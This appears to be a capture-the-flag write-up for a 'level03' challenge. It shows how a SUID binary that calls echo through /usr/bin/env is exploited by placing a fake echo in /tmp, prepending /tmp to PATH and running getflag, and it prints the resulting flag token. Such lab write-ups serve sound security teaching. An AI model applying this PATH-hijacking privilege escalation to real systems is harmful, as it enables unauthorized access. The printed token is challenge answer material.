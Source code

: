 ## Level 03: Exploiting the Binary

### Objective
Retrieve the token by exploiting a binary named `level03`.

### Steps

1. **Analyze the Binary:**
   - Execute the binary:
     ```bash
     ./level03
     ```
     Output:  
     ```
     Exploit me
     ```
   - Inspect the binary:  
   The `strings` command extracts printable character strings from a binary file. You can then use `grep` to search for the desired phrase.
     ```bash
     strings level03 | grep "Exploit me"
     ```
     Output:  
     ```
     /usr/bin/env echo Exploit me
     ```

   The binary executes the `echo` command using `/usr/bin/env` without an absolute path. This behavior can be exploited by modifying the `PATH` environment variable.

2. **Understand the Vulnerability:**  
   - The `/usr/bin/env` command searches for the executable `echo` in the directories listed in the `PATH` environment variable.
   - By controlling the `PATH`, you can prioritize a malicious version of the `echo` command.

3. **Exploit the Vulnerability:**  
   - **Create a Malicious Executable:**  
      Create a fake `echo` command that executes `getflag`:
      ```bash
      echo "/bin/getflag" > /tmp/echo
      chmod +x /tmp/echo
      ```
   - **Modify the PATH Variable:**  
      Temporarily prepend `/tmp` to the `PATH`:
      ```bash
      export PATH=/tmp:$PATH
      ```
   - **Execute the Vulnerable Command:**  
      Run the binary:
      ```bash
      ./level03
      ```
      Output:  
      ```
      Check flag.Here is your token: qi0maab88jeaj46qoumi7maus
      ```

4. **Why This Exploit Works:**
   - The binary `level03` likely has the SUID bit set, allowing it to run with the privileges of its owner (`flag03`).
   - When the modified `PATH` is used, the binary executes `/tmp/echo` (the malicious script) as if it were the real `echo` command.
   - Since `level03` runs with elevated privileges, it successfully executes `getflag` and retrieves the token.

5. **Verify SUID Permissions:**  
   Check if the SUID bit is set on the binary:
   ```bash
   ls -l ./level03
   ```
   Output:
   ```bash
   -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 ./level03
   ```
   The `s` in `rws` confirms that the binary runs with the privileges of its owner (in this case, `flag03`).

